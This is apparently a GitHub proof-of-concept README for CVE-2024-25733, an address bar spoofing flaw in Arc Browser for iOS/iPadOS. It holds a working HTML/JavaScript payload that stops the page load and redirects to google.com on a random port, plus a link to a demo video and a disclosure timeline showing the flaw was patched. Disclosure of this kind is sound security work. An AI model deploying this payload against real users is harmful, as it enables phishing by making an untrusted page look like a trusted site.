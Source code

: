 # ARC-Browser-Address-Bar-Spoofing-PoC (CVE-2024-25733)
ARC Browser Address Bar Spoofing PoC - iOS/iPadOS

## Exploit PoC (Proof of Concept)

```html
<script>
    function spoof() {
        setTimeout(() => {
            window.stop();
            let randomPort;
            do {
                randomPort = Math.floor(Math.random() * 1000);
            } while (randomPort === 0 || randomPort === 443);
            document.location = "https://google.com:" + randomPort + "/";
        }, 300);
    }
    spoof();
</script>
```
<br>


## DEMO

<a href="https://github.com/hackintoanetwork/ARC-Browser-Address-Bar-Spoofing-PoC/raw/main/PoC.mp4">PoC.mp4</a>
<br>
<br>


## TimeLine

 - 2024-01-25 : Vulnerability reported to The Browser Company of New York
 - 2024-01-25 : Recognized as a security vulnerability
 - 2024-02-13 : Patched in the latest release

